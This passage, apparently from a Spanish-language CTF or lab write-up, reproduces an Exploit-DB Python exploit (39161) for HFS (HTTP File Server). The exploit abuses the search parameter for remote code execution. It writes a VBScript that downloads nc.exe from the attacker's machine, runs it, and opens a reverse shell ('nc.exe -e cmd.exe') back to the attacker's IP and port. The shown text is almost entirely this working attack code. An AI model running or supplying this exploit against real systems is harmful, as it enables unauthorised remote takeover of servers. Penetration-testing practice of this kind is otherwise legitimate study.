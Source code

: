 


## Explotación

Buscamos en `Exploit-db` si hay un exploit asociado a esta versión y encontramos el siguiente [exploit](https://www.exploit-db.com/exploits/39161).

```python
#!/usr/bin/python
# Description: You can use HFS (HTTP File Server) to send and receive files.
#	       It's different from classic file sharing because it uses web technology to be more compatible with today's Internet.
#	       It also differs from classic web servers because it's very easy to use and runs "right out-of-the box". Access your remote files, over the network. It has been successfully tested with Wine under Linux. 
 
#Usage : python Exploit.py <Target IP address> <Target Port Number>

#EDB Note: You need to be using a web server hosting netcat (http://<attackers_ip>:80/nc.exe).  
#          You may need to run it multiple times for success!


import urllib2
import sys

try:
	def script_create():
		urllib2.urlopen("http://"+sys.argv[1]+":"+sys.argv[2]+"/?search=%00{.+"+save+".}")

	def execute_script():
		urllib2.urlopen("http://"+sys.argv[1]+":"+sys.argv[2]+"/?search=%00{.+"+exe+".}")

	def nc_run():
		urllib2.urlopen("http://"+sys.argv[1]+":"+sys.argv[2]+"/?search=%00{.+"+exe1+".}")

	ip_addr = "192.168.44.128" #local IP address
	local_port = "443" # Local Port number
	vbs = "C:\Users\Public\script.vbs|dim%20xHttp%3A%20Set%20xHttp%20%3D%20createobject(%22Microsoft.XMLHTTP%22)%0D%0Adim%20bStrm%3A%20Set%20bStrm%20%3D%20createobject(%22Adodb.Stream%22)%0D%0AxHttp.Open%20%22GET%22%2C%20%22http%3A%2F%2F"+ip_addr+"%2Fnc.exe%22%2C%20False%0D%0AxHttp.Send%0D%0A%0D%0Awith%20bStrm%0D%0A%20%20%20%20.type%20%3D%201%20%27%2F%2Fbinary%0D%0A%20%20%20%20.open%0D%0A%20%20%20%20.write%20xHttp.responseBody%0D%0A%20%20%20%20.savetofile%20%22C%3A%5CUsers%5CPublic%5Cnc.exe%22%2C%202%20%27%2F%2Foverwrite%0D%0Aend%20with"
	save= "save|" + vbs
	vbs2 = "cscript.exe%20C%3A%5CUsers%5CPublic%5Cscript.vbs"
	exe= "exec|"+vbs2
	vbs3 = "C%3A%5CUsers%5CPublic%5Cnc.exe%20-e%20cmd.exe%20"+ip_addr+"%20"+local_port
	exe1= "exec|"+vbs3
	script_create()
	execute_script()
	nc_run()
except:
	print """[.]Something went wrong..!
	Usage is :[.] python exploit.py <Target IP address>  <Target Port Number>
	Don't forgot to change the Local IP address and Port number on the script"""
```
